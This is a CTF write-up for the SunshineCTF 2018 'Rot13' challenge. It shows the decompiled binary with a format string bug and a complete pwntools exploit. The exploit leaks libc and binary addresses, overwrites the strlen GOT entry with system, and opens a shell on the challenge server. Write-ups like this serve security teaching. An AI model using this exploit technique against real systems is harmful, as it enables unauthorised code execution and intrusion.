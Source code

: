# Reference

[//]: <> (文章所涉及到的技术点、WriteUp的链接)

* https://devcraft.io/2018/04/08/sunshine-ctf-2018.html#rot13
* https://ctftime.org/writeup/9549
* https://github.com/phieulang1993/ctf-writeups/blob/master/2018/sunshinectf/rot13/rot13.py
# Title

[//]: <> (题目)

Rot13 200 An inventor claims to have designed a machine that enciphers messages in a way that's impossible to break. He's holding a demo of this machine soon and is planning to allow people to try it out. See if you can find a way to ruin his demonstration!

nc chal1.sunshinectf.org 20006

Author: hackucf_kcolley

Files: rot13 rot13-libc.so libpwnableharness32.so

# Content

[//]: <> (WriteUp内容)

A pretty simple binary that just reads some text and then prints the rot13 of it:
```c
char v1; // [esp+3h] [ebp-415h]
size_t i; // [esp+4h] [ebp-414h]
size_t v3; // [esp+8h] [ebp-410h]
char s[1024]; // [esp+Ch] [ebp-40Ch]
unsigned int v5; // [esp+40Ch] [ebp-Ch]

v5 = __readgsdword(0x14u);
puts("Welcome to Hackersoft Rot13 Encrypter Home and Student Edition 2018.");
puts("  \"Because rot13 is the best encryption (tm)\" ~Eve");
puts((const char *)&unk_BCB);
puts("Note: Hackersoft Rot13 Encrypter Home and Student Edition can only");
puts("encrypt data. In order to decrypt rot13-encrypted data, you must");
puts("purchase Hackersoft Rot13 Decrypter Professional 2018.");
do
{
  puts("\nEnter some text to be rot13 encrypted:");
  if ( !fgets(s, 1024, stdin) )
    break;
  v3 = strlen(s);
  for ( i = 0; i < v3; ++i )
  {
    v1 = s[i];
    if ( (*__ctype_b_loc())[v1] & 0x200 )
    {
      v1 = (v1 - 84) % 26 + 97;
    }
    else if ( (*__ctype_b_loc())[v1] & 0x100 )
    {
      v1 = (v1 - 52) % 26 + 65;
    }
    s[i] = v1;
  }
  printf("Rot13 encrypted data: ");
  printf(s);
}
while ( !feof(stdin) );
puts("Thank you for using Hackersoft Rot13 Encrypter Home and Student Edition 2018!");
```

The issue is that it prints the encoded text directly with ```printf(s)```; so we have a pretty basic format string vulnerability with the addition of having to rot13 our payload first:

```python
#!/usr/bin/env python2
from pwn import *
import string

rot13 = string.maketrans(
    "ABCDEFGHIJKLMabcdefghijklmNOPQRSTUVWXYZnopqrstuvwxyz",
    "NOPQRSTUVWXYZnopqrstuvwxyzABCDEFGHIJKLMabcdefghijklm")
def rot(s):
  return string.translate(s, rot13)

def get_data():
    p.recvuntil(" data: ")
    resp = p.recvuntil("\n\nEnter some text", drop=True)
    return resp

def send_payload(payload):
    log.info("payload = %s" % repr(payload))
    p.sendline(rot(payload))
    return get_data()

def exploit():
  p.sendlineafter("encrypted:", rot("%2$p"))
  leak1 = int(get_data()[2:],16)
  libc.address = leak1 -  0x25325
  log.info("libc: 0x{:x}".format(libc.address))

  p.sendlineafter("encrypted:", rot("%3$p"))
  leak = int(get_data()[2:],16)
  binary.address = leak - 0x95b
  log.info("binary: 0x{:x}".format(binary.address))

  format_string = FmtStr(execute_fmt=send_payload)
  format_string.write(binary.got["strlen"], libc.symbols["system"])
  format_string.execute_writes()

  p.sendline("/bin/sh")
  p.interactive()

if __name__ == "__main__":
  name = "./rot13"
  binary = ELF(name)

  libc_name = "./rot13-libc.so"
  libc = ELF(libc_name)

  if len(sys.argv) > 1:
    p = remote("chal1.sunshinectf.org", 20006)
  else:
    p = process(name, env={'LD_PRELOAD': libc_name})
```

Flag: sun{q0hoy3_e0g13_1f_o3gg3e_gu4a_gu3_3a1tz4_z4pu1a3}
